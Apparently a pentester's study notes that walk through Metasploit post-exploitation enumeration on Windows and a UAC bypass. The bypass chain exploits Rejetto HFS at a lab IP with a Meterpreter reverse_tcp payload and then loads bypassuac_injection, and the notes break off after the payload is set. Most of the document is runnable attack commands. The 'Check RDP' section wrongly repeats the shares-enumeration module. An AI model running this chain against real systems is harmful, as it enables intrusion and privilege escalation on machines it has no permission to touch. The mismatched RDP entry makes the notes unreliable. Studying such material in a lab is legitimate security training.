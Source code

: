 **AVs detection**

```bash
msf6> use post/windows/gather/enum_av_excluded
msf6> set session 1
msf6> run
```

**Domain computer enumeration**

```bash
msf6> use post/windows/gather/enum_computers
msf6> set session 1
msf6> run
```

**Patches enumeration**

```bash
msf6> use post/windows/gather/enum_patches
msf6> set session 1
msf6> run
```

**Shares enumeration**

```bash
msf6> use post/windows/gather/enum_shares
msf6> set session 1
msf6> run
```

**Check RDP**

```bash
msf6> use post/windows/gather/enum_shares
msf6> set session 1
msf6> run
```

#### Bypassing UAC

* User Account Control (UAC) is a Windows security feature introduced in Windows Vista that is used to prvent unauthorized changes from being made to the operating system.
* UAC is used to ensure that changes to the operating system require approval from the administrator.
* We can utilize the **Windows Escalate UAC Protection Bypass (In Memory Injection)** module to bypass UAC by utilizing the trusted publisher certificate through process injection. It will spawn a second shell that has the UAC flag turned off.

```bash
kali@kali> service postgresql start && msfconsole
msf6> workspace -a uac_bypass
msf6> setg rhosts 10.3.28.181
msf6> db_nmap -sV 10.3.28.181

msf6> use exploit/windows/http/rejetto_hfs_exec
msf6> set payload windows/x64/meterpreter/reverse_tcp
msf6> run

meterpreter> sysinfo
meterpreter> getprivs  # not a lot of privileges
meterpreter> shell

C:> net localgroup administrators
# CTRL+C
meterpreter>
# CTRL+Z

msf6> use exploit/windows/local/bypassuac_injection
msf6> set payload windows/x64/meterpreter/reverse_tcp
```
